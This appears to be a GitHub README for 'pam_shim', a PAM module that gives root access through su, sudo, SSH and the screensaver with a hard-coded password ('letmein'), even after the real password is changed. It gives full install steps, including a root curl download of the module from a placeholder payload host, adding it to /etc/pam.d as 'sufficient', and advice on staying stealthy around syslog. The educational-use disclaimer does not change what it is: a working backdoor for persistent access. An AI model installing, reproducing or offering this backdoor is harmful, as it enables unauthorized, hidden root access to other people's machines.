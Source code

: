 # pam_shim
A PAM module created to act as a shim enabling sustained access to an UNIX-based computer, even in the event of a password change.

I originally coded this in my first year of high school – it's a long story. I didn't think this would really be useful to anyone else, but after having several people request the source, I patched it up for Yosemite and put it up here on Github.

### Disclaimer
This small utility is provided for educational use on machines you own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using pam_shim under other circumstances.

## Features and Relevant Caveats
This code has only been tested on Mac OS X, but it should theoretically build and function (albeit with some minor modification) on any UNIX system that employs PAM authentication. No thought whatsoever was given to cross-compatibility during the design phase as such goals were far beyond the initial scope of the project, but UNIX is generally pretty forgiving in this regard. While Linux support might take a bit of trial and error, it's not entirely inconceivable – if anyone does decide to go through the trouble of figuring it out, please do tell how you've made it work.

When the OpenDirectory fallback fails, pam_shim returns **silently** where pam_opendirectory.so might report an error message like "su: Sorry" or "sudo: Authentication failure". I'm too lazy to figure out how pam_opendirectory.so does this, so either try to fix it yourself if it really bugs you, or just bear with it until it irritates someone else enough that they do so for you. ;) Ah, the beauty of Github.

**IMPORTANT:** pam_shim does *not* affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. It *does* however work okay in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, unlike LoginWindow.app the Mac OS X screensaver engine's password lock seems to play along with pam_shim just fine.

## Building
Building pam_shim is not a very tricky process – I've been able to do so flawlessly using both clang and tcc on my MacBook (OSX 10.10.1); YMMV with other untested setups. The build system is marvelously uncomplicated, just run `make` in the source directory. You may need to make some system-specific changes to the Makefile or source code if it won't build correctly as-is. In the event your box complains about something, rest assured that the code itself is stupidly simple (it's just a shim after all) and easy to hack on. I apologize in advance for the lack of comments, though. (^\_^);

You'll need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you want to toss ~8GB of SSD space out the window).

### Changing the password
To change the password used by pam_shim (must be done during the build stage), edit the `#define PASS` preprocessor directive in `config.h`, and run `make clean && make` to rebuild the module. If you're paranoid, feel free to change the salt as well. The system pam_shim uses to hash the plaintext password is admittedly a bit sketchy, but as I didn't want to rely on mkpasswd or openssl, there weren't a ton of other options. Hey, at least it doesn't store the password in plaintext. Now *that* would be bad.

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the root account of the target machine. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case.

The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a download & execute one-liner. Such a script is intentionally not included however, as there is high potential for abuse and whatnot. If you require this or similar functionality for some legitimate reason though, it's completely trivial to implement on your own.

But in this readme, I'll be showing you how to do it The Hard Way™ (actually pretty easy) instead. **NOTE:** I'm going to assume you've already built everything.

**(1)** Move or copy `pam_shim.so` to your PAM library folder – as one might expect, doing so requires root. On every Mac OS X installation I've come across thus far, this directory is `/usr/lib/pam`. In the command below, I elevate to root via `sudo` and download a precompiled pam_shim binary directly to my PAM library folder. PAM seems to recommend that you use the `.so` extension when naming PAM modules, even if they're technically in another binary format (like Mach-O dylib, in this case) – but if you want to be a rebel, it'll obviously still work when renamed to something like `pam_shim.dylib`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/pam_shim.so -o /usr/lib/pam/pam_shim.so
```

**(2)** Change the permission attributes of `/usr/lib/pam/pam_shim.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this constitutes mode 0444 and `root:wheel` ownership. In this case, I've downloaded the file as root so it already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel pam_shim.so
    # chmod 0444 pam_shim.so
```

**(3)** Edit the configuration files in `/etc/pam.d` so that `pam_shim.so` has the `sufficient` role for the services you'd like to have it affect. Keep in mind that some services (e.g. su and sudo) syslog their activity by default, so if you're trying to be stealthy you might want to think twice as to how you're getting root. Lastly, make sure the entry is at the top, or PAM won't check it first. Here's my `/etc/pam.d/su` file, for example:
```
auth       sufficient     pam_shim.so
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
This will cause `su`'s PAM calls to route through pam_shim, returning successful if the password given is equivalent to the one hard-coded into library, and falling back to OpenDirectory if not. Note that there is no need to remove or comment out the pam_group line as pam_shim will return successful before PAM has the opportunity to evaluate it.

**(4)**  Test it out! (unless you changed it, the password is "letmein")
```
$ su
Password:
#
```
After providing the pam_shim password (from any user) *or* the actual root password (as an admin/wheel user), `su` should give you a root shell. If not, you probably missed a step somewhere along the line. Now you can go ahead and place corresponding entries into the PAM configuration files pertaining to sudo, sshd, screensaver, ftpd, or whatever else floats your boat.
